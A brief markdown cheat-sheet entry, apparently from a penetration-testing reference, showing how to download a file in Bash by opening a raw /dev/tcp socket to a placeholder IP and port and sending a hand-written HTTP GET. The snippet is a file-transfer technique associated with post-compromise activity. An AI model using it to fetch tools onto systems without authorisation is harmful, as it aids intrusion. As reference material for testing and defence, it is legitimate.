 # Bash - File transfert

## Bash - download
```
// connect to desired webserver
exec 3<>/dev/tcp/<IP>/<PORT>
// HTTP get request
echo -e "GET /<File> HTTP/1.1\n\n">&3
// print response
cat <&3
```
